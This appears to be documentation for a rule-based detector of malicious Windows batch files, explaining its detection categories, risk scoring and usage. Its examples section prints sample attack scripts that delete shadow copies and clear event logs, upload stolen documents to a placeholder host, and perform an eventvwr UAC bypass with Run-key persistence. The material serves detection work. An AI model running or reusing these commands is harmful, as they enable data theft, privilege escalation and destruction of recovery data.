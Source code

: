 # BAT File Analyzer

## Overview

The BAT file analyzer is a purpose-built tool designed to detect potentially malicious Windows batch (.bat) files. Unlike the PE file analyzer which uses a machine learning model, the BAT analyzer employs rule-based heuristics to identify suspicious patterns, dangerous commands, and obfuscation techniques commonly found in malicious batch scripts.

## Key Features

1. **Dangerous Command Detection**: Identifies commands that are commonly used in malicious contexts
2. **Suspicious Pattern Recognition**: Detects obfuscation, encoding, and evasion techniques
3. **Obfuscation Scoring**: Quantifies the level of obfuscation used in the script
4. **Detailed Reporting**: Provides comprehensive analysis results including specific line numbers
5. **Fast Performance**: Lightweight analysis suitable for real-time scanning

## Detection Methodology

### 1. Dangerous Commands

The analyzer maintains a database of commands frequently used in malicious contexts, including:

- **System Modification Commands**: `reg`, `sc`, `netsh`, `wmic`
- **Security Bypass Commands**: Commands that disable security features
- **File Operations**: Suspicious deletion or modification commands
- **Remote Access Tools**: Commands that enable remote control
- **Information Gathering**: Commands that extract system information

Each command is checked using regular expressions to account for variations in syntax.

### 2. Suspicious Patterns

The analyzer looks for patterns that indicate potential malicious intent:

- **Base64/Hex Encoding**: Used to hide malicious payloads
- **Command Obfuscation**: Techniques like string splitting, variable substitution
- **UAC Bypass Techniques**: Registry modifications to bypass User Account Control
- **Self-deletion Mechanisms**: Code that deletes the script after execution
- **Download & Execute Patterns**: Commands that download and run external code
- **Event Log Deletion**: Attempts to clear event logs to hide traces

### 3. Obfuscation Analysis

The analyzer quantifies obfuscation using several metrics:

- **Uncommon Character Frequency**: Characters like `^`, `%`, `!` often used in obfuscation
- **Line Continuations**: Excessive use of the caret (`^`) for command splitting
- **Command Chaining**: Complex chains of commands using `&&`, `||`, or `;`
- **Variable Manipulation**: Unusual variable operations like substring extraction

### 4. Risk Scoring Algorithm

The final risk score is calculated as a weighted average of several factors:

- **Dangerous Command Score** (40%): Based on the number and severity of dangerous commands
- **Suspicious Pattern Score** (40%): Based on the number and types of suspicious patterns
- **Obfuscation Score** (20%): Based on the level of obfuscation detected

The risk score ranges from 0.0 (clean) to 1.0 (highly suspicious), with scores above 0.5 classified as "Malware".

## Real-World Examples

### Example 1: Ransomware Distribution

Batch files are often used to deploy ransomware payloads:

```batch
@echo off
powershell -WindowStyle Hidden -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC...
vssadmin delete shadows /all /quiet
wbadmin delete catalog -quiet
wevtutil cl System
wevtutil cl Security
```

This script:
1. Uses PowerShell with encoded commands to hide the payload
2. Deletes shadow copies to prevent recovery
3. Erases event logs to hide malicious activity

### Example 2: Information Theft

Batch scripts used to steal sensitive information:

```batch
@echo off
set "u=%username%"
mkdir %temp%\data
copy "%userprofile%\Documents\*.doc*" "%temp%\data\"
copy "%userprofile%\Documents\*.pdf" "%temp%\data\"
powershell Compress-Archive %temp%\data %temp%\data.zip
certutil -encode %temp%\data.zip %temp%\data.b64
powershell -c "(New-Object System.Net.WebClient).UploadFile('https://evil.example.com/upload', '%temp%\data.b64')"
del %temp%\data.* /q /f
rmdir %temp%\data /s /q
```

This script:
1. Collects document files from user directories
2. Compresses and encodes them
3. Uploads them to a remote server
4. Covers its tracks by deleting temporary files

### Example 3: UAC Bypass & Persistence

Scripts used to bypass User Account Control and maintain persistence:

```batch
@echo off
reg add HKCU\Software\Classes\mscfile\shell\open\command /v "" /t REG_SZ /d "cmd.exe /c start malware.exe" /f
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /t REG_SZ /d "%~f0" /f
eventvwr.exe
timeout /t 2 >nul
reg delete HKCU\Software\Classes\mscfile\shell\open\command /f
```

This script:
1. Creates a registry entry to exploit the eventvwr.exe UAC bypass
2. Sets up persistence through the Run registry key
3. Triggers the exploit
4. Cleans up traces

## How to Use the Analyzer

To analyze a batch file, simply call the `analyze_bat_file` function:

```python
from services.bat_analyzer import analyze_bat_file

result = analyze_bat_file("path/to/suspect.bat")
print(f"Prediction: {result['prediction']}")
print(f"Risk Score: {result['risk_score']}")
print(f"Obfuscation Score: {result['obfuscation_score']}")

# Show dangerous commands found
for cmd in result['dangerous_commands']:
    print(f"Line {cmd['line']}: {cmd['command']} - {cmd['content']}")
```

## Advantages Over Traditional Detection Methods

1. **No Signature Dependency**: Unlike antivirus solutions, doesn't rely on exact signature matches
2. **Content-Based Analysis**: Analyzes the actual behavior and content, not just file hashes
3. **Context-Aware**: Understands the context of commands, not just their presence
4. **Transparent Reasoning**: Provides clear explanation of why a file was flagged
5. **Low Resource Usage**: Doesn't require complex ML models or extensive databases

## Limitations

1. **False Positives**: Legitimate system administration scripts may use similar commands
2. **Evasion Techniques**: Sophisticated malware might use novel obfuscation techniques
3. **Contextual Understanding**: Cannot fully understand the intent behind certain commands
4. **Legitimate Obfuscation**: Some benign scripts may use obfuscation for intellectual property protection

## Future Improvements

1. **Enhanced Pattern Recognition**: Additional patterns based on emerging threats
2. **Behavior Simulation**: Simulate script execution in a safe environment
3. **Machine Learning Integration**: Supplement rule-based detection with ML classification
4. **Whitelist Integration**: Ability to whitelist known good patterns
5. **Command Deobfuscation**: Automatically deobfuscate commands for better analysis 